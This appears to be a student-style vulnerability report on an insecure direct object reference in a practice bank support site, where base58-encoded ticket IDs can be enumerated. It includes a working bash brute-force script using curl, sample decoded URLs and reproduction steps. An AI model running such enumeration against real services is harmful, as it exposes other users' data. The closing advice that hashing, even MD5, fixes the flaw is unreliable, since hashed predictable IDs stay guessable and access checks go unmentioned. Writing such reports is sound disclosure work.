



# Insecure direct object reference vulnerability in 'support.quoccabank.com' leads to unauthorized access and information leakage.

## Severity: medium

## Report Summary:

The 'support.quoccabank.com/raw/' endpoint allows for the user to submit support tickets, but utilizes base58 encoding to obfuscate the generated unique id in the format `user_id:page_number`. Therefore by brute force enumeration, one is able to view the files of all users on the database.

## Proof of concepts

this is the bash script that enumerates all the possible ids and page numbers and prints the response code for the user to grep

```shell
#!/bin/sh
#$1 = id
#$2 = max_number
split_input() {
        local body=$(echo $response| sed 's/{.*}//')
        local json=$(echo $response| sed 's/.*{/{/')
        local response_code=$(echo $json| jq '.response_code')
        echo "number = $i,code = $response_code, file= $file"
        #echo $body
        #echo $json
        if [ $response_code -eq "200" ]
        then
                echo $body | grep '6443'
        fi
}
for i in $(seq 0 10000)
do
        file=$(echo -n "$i:1"| base58)
        #file=$(echo -n "$1:$i"| base58)
        response=$(curl -s --proxy http://127.0.0.1:8080 -k -i "https://support.quoccabank.com/raw/$file" --write-out '%{json}')
        split_input $response $i $file
        sleep 0.1
done
```

for this endpoint `https://support.quoccabank.com/raw/RVnSH2uR` aka `raw/1125:4` encoded in base58



similarly `https://support.quoccabank.com/raw/VVBWU75i` aka `raw/9447:1` 



## Steps to reproduce 

You can either run the brute forcing script to find out other users ids, pages or you can just pipe the above input into [Cyberchef](https://gchq.github.io/CyberChef/) as shown in the figure below, then paste it into 'https://support.quoccabank.com/raw/{base58(input)}' and there will be information leakage.



 ## Recommendations 

Security by obscurity is not the proper method to securing a web application, encoding is not the same as encrypting and obfuscation on the id codes are easily defeated by brute force methods or just people who are capable and willing to spend a lot of time to defeat any mechanisms. Other methods for generating unique tokens such as a hash algorithm, preferably not MD5, but even MD5 is better than base58.

